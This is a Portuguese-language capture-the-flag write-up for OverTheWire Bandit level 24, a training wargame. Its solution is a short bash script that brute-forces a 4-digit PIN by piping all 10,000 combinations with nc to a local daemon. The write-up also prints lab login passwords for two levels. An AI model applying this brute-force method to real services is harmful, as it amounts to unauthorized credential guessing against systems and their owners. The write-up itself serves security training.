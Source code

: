 # Level 24
**Tópicos**

- [X] [Goal](#goal)
- [X] [Um pouco de Teoria](#teoria)
- [X] [Write Up](#write-up)
- [X] [Solução](#soluçao)
- [X] [Resources](#resources)

## Goal
Um daemon está escutando na porta 30002 e fornecerá a senha para bandit25 se for fornecida a senha para bandit24 e um código numérico secreto de 4 dígitos. Não há como recuperar o código PIN, exceto passando por todas as 10.000 combinações, chamadas de força bruta.
Você não precisa criar novas conexões toda vez.

## Teoria
**Bash Script**

Para entender mais a estrutura do [bash script](https://learnxinyminutes.com/docs/bash/)

**mktemp**

Cria ou um arquivo ou um diretório temporário. E printa o nome deste na saída padrão. Se não form passada nenhuma flag ele cria um arquivo, se passarmos `-d`, é criado um diretório.

**Diferença entre > e >>**

O `>` sobrescreve um arquivo já existente ou um novo arquivo é criado desde que o nome do arquivo mencionado não esteja no diretório. 

E o `>>` acrescenta a informação em um arquivo já existente ou cria um novo arquivo se esse nome de arquivo não existir no diretório.

**chmod +x**

Dá a permissão para todos os usuários executarem o arquivo. [Para saber mais.](https://www.gnu.org/software/coreutils/manual/html_node/Setting-Permissions.html)

## Write up
**Informações**
- Host Name: `bandit.labs.overthewire.org`
- Username: `bandit24`
- Password: `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`
- Port Number: `2220`

**Passo a Passo**

***[# Passo1.]*** Conectar e logar no SSH usando as informações acima.

***[# Passo2.]*** Criar um diretório temporário e entrar nele.

***[# Passo3.]*** Escrever um script que coloque todos os possivéis casos em um arquivo, a senha do bandit24 e 4 digitos separado por um espaço. E depois pegue esse arquivo com as possibilidades e conecte com localhost na porta 30002 e coloque as saídas em um outro arquivo. Além disso, que ordena o arquivo de resultados e, por fim pegue a saída que tem a palavra `password`.

***[# Passo4.]*** Depois de ter escrito o script, mude as permissões dele, para que este seja executável. Por fim, execute o script.

***[# Passo*.]*** Para sair, rode `exit`

## Solução
<prep>
[# Passo1.] 

<b>> ssh bandit24@bandit.labs.overthewire.org -p 2220</b>

bandit24@bandit.labs.overthewire.org's password: <b>VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar</b>

[# Passo2.]

<b>bandit24@bandit:~$</b> mktemp -d

/tmp/tmp.zkGGsU2zpX

[# Passo3.]

<b>bandit24@bandit:/tmp/tmp.zkGGsU2zpX$</b> nano script.sh

<i>Editando o script.sh</i>

#!/bin/bash

for i in {0000..9999}

do

    echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i >> allCases.txt

done

cat allCases.txt | nc localhost 30002 >> results.txt

sort results.txt > results2.txt

grep password results2.txt

[# Passo4.]

<b>bandit24@bandit:/tmp/tmp.zkGGsU2zpX$</b> chmod +x script.sh

<b>bandit24@bandit:/tmp/tmp.zkGGsU2zpX$</b> ./script.sh


[# Passo*.] 
<b>bandit24@bandit:~$</b> exit

logout                

Connection to bandit.labs.overthewire.org closed.
</prep>

**Credenciais para o Level 25:**
- Username: `bandit25`
- Password: `p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d`

## Resources
[OverTheWire](https://overthewire.org/wargames/bandit/bandit25.html)


